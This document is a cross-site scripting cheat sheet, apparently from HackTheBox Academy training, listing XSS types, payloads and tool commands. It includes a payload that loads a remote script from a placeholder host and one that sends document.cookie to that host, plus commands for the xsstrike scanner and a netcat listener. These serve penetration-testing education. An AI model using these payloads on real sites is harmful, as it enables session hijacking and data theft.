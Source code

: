 # Cross-Site Scripting (XSS)

## Types of XSS
There are three main types of XSS vulnerabilities:

| Type                | Description                                                                 |
|---------------------|-----------------------------------------------------------------------------|
| Stored (Persistent) XSS | Occurs when user input is stored in a database and displayed (e.g., posts). |
| Reflected (Non-Persistent) XSS | Occurs when input is processed and shown without storage (e.g., search).   |
| DOM-based XSS       | Occurs when input is client-side processed and displayed (e.g., parameters).|

## XSS Payloads

| Code | Description |
|------|-------------|
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Command | Description |
|---------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run xsstrike on a url parameter |
| `sudo nc -lvnp 8080` | Start netcat listener |
| `sudo php -S 0.0.0.0:8080` | Start PHP server |

## Useful Links

- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

